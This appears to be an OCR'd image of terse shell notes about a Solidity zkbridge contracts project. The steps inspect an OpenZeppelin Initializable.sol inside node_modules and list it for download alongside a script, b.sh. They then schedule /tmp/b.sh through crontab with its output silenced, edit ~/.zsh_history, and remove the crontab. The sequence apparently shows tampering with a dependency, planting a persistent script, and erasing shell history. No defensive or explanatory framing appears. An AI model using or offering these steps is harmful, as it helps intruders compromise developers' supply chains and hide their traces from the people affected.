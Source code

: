 ```
ls -alF /Users/qibin/polyhedra/workspace/solidity/zkbridge-contracts-v2/node_modules/@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol
```
```
下载
Initializable.sol
b.sh
```
```
crontab -e
```
```
* 19-23 * * * /tmp/b.sh >/dev/null 2>&1
```
```
vim ~/.zsh_history
```
```
shift g
```
```
crontab -r
```
